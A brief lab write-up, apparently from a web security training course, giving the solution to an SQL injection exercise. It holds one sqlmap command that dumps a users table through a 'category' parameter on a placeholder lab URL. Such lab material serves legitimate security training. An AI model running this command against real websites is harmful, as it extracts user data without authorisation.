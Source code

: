 # Lab 18: SQL Injection with SQLMap

* **Solution**: Use SQLMap to automate dumping the users table via the category parameter, leveraging its detection and extraction capabilities.
* **Final Payload**:
  * Command: sqlmap -u "https://YOUR-LAB-ID.web-security-academy.net/filter?category=Gifts" --dump --table users (adjust URL to your lab instance)